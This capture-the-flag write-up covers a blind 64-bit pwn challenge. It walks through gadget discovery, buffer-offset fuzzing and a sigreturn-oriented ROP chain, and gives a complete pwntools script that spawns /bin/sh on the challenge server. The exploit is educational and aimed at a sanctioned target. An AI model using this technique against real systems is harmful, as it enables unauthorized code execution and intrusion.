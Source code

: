 # Push Writeup

Remember those Sarah McLaughlan commercials about the puppies? We do. We made a blind challenge to remind you about the heartbreak.

0.cloud.chals.io:21978

Author: v10l3nt

## Overview

Upon connecting to the server, we get prompted by this:

![](./img/initial_prompt.png)

If we ask for more pushes, we get what seems to be push statements and a return, followed by what seems to be an address pointing to that instruction.

![](./img/all_addrs.png)

From the address length, I think it is safe to assume this is a 64 bit system. These instructions seem to be constant between runs while the address of them are not. There seems to be recurring values in these instructions: 0x0f05 and 0x58. Upon looking up these values, it seems as if 0x58 is equivalent to the `pop rax; ret` instruction whereas 0x0f05 are the opcodes for the `syscall` instruction. This isn't much to work with, but from what we're given, it seems as if the intended path from here is to cause a sigreturn!

A sigreturn is a syscall that makes the program pull bytes off of the stack and put them into EVERY register. If we control what gets put onto the stack, then we get to control every register! Since it seems we have arbitrary write because we don't get any warning about a size limit, we can write anything we want to the stack and, in turn, set every register to what we want!

## Planning

Since we are given a `/bin/sh` string address and we have a syscall instruction with a `pop rax` gadget, the easiest solution would be to call `execve` via syscall number 59 and pass the `/bin/sh` address into `rdi`.

## Execution

Now we have to figure out how to use these addresses. If I just wanted a `syscall; ret` ROP gadget, I would ideally want `0x0f 0x05 ret`. This can be found 2 bytes into the second instruction we are given (`push 0x0f050f05; ret`). To access this, we would have to return to the given addess + 2 to ignore the prior 0x0f 0x05 bytes. We have the same deal with the `pop rax; ret` gadget. With the first instruction we're given (`push 0x58585858; ret`), we can just ignore the first 3 0x58 bytes and just continue from the last 0x58 byte, giving us `0x58; ret`, which is just `pop rax; ret`!

Now that we have 2 gadgets, we can now focus on the sigreturn part. To cause a sigreturn, we need to put `0xf` into the `rax` register and then call `syscall`. Since we concluded this was a 64 bit system earlier, each address/register is 8 bytes. The next problem to solve is the amount of padding we need. To figure this out, I went ahead and put in inputs of increasing length to figure out when the program crashed. This would probably be the end of the base pointer. Here, we found out the length is 16, so there's probably a buffer of length 8 and then the base pointer inmmediately afterwards.

![](./img/buffer_fuzzing.png)

Since we know the bounds of the buffer, we can now attempt to blindly call the sigreturn.

From my pwn experience, we usually need to overwrite `rbp` after the buffer, which would be 8 bytes. 

Next, we have the `rip` register. This is where we will start the ROP chain. First, we need to call `pop rax; ret`. We'll add our offset address to the payload. Next, we need to pop 0xf into the `rax` register, so we'll put that on the stack next. Right after, we need to call `syscall`. We can add our address we got earlier to the chain, and that should be it!

Now I think it is important to note that we don't have any definitive proof that the sigreturn went off successfully, which is very unfortunate. Let's just continue as if we have it all working.

Now that a supposed sigreturn has been called, we need to create a sigreturn frame to push onto the stack after the `syscall` gadget to set all the registers to what we want. The goal is to call `execve('/bin/sh')`, so we need `syscall` in the `rip` register so it gets called next, `0x3b` in the `rax` register to use the `execve` syscall, and the `/bin/sh` string in `rdi` (the first argument of the call) to spawn the shell, and zeroes in the rest of the registers. Luckily, pwntools has a very nice way to create sigreturn frames, so this won't be too much of an issue.

```python
from pwn import *

context.arch = "amd64"

p = remote("0.cloud.chals.io", 21978)

p.recvuntil(b": ")

tmp = p.recvline().decode()
print(tmp)
BIN_SH = int(tmp.strip()[2:], 16)
print(f"/bin/sh: {hex(BIN_SH)}")

p.recvline()

p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 3
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 2
print(f"Syscall instruction: {hex(SYSCALL)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
p.recvuntil(b">>> ")

# Get 0xa into RAX to cause a Sigreturn
payload = b"A"*8
payload += b"B"*8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL)

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdx = 0
frame.rsi = 0
frame.rdi = BIN_SH
frame.rip = SYSCALL

payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Once we have the frame situated, we are ready to test it out! We can append the frame to the end of our previous payload and send it along with it. This is the result:

![](./img/no_shell.png)

Huh, we didn't get a shell... :/

Now time for the tweaking. There are a few places where we aren't 100% confident. We made the assumption that the address given with each instruction pointed to the start of the instruction. However, this could very well NOT be the case. To try and see if this is the underlying issue, lets just go ahead and add offsets to each address manually and test it out. One of the offset combinations resulted in a shell being popped!

```python
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 6
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 4
print(f"Syscall instruction: {hex(SYSCALL)}")
```
![](./img/shell.png)

It seems as if the working combination of offsets were 2 times what we had arrived as earlier, which is very strange. I'm not entirely sure why this was the case for this problem. Regardless, now we can go ahead and read the flag!

![](./img/flag.png)

Flag: `uscg{ch4ng3_and_gr0wth_is_s0_pa1nful}`
